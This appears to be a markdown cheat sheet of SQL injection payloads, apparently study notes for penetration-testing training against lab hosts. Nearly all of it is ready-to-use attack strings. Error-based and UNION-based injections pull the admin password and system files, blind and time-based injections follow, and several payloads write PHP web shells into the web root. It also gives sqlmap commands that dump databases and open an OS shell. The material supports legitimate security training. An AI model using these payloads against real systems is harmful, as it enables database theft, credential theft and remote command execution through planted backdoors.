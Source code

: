 ### Error-based payloads

```
' or 1=1 in (select @@version) -- //
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

Vunerable SQL query:`$query = "SELECT * from customers WHERE name LIKE '".$_POST["search_input"]."%'";`

Submit the following injected query into the search bar

Orders the results by a specific column => number of columns

```
' ORDER BY 1-- //
```

### UNION-based payloads

```
' UNION SELECT null, null, database(), user(), @@version -- //
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```

```
http://10.11.0.22/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables

http://10.11.0.22/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')

http://10.11.0.22/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

### Blind SQL Injections

`http://192.168.50.16/blindsqli.php?user=`

```
offsec' AND 1=1 -- //
offsec' AND IF (1=1, sleep(3),'false') -- //
```

```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

### sqlmap

```bash
sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --dump

sqlmap -r post.txt -p item --os-shell --web-root "/var/www/html/tmp"

sqlmap -r wp.req -p 'question_id' -D wordpress -T wp_users --dump --technique=T --flush-session
```
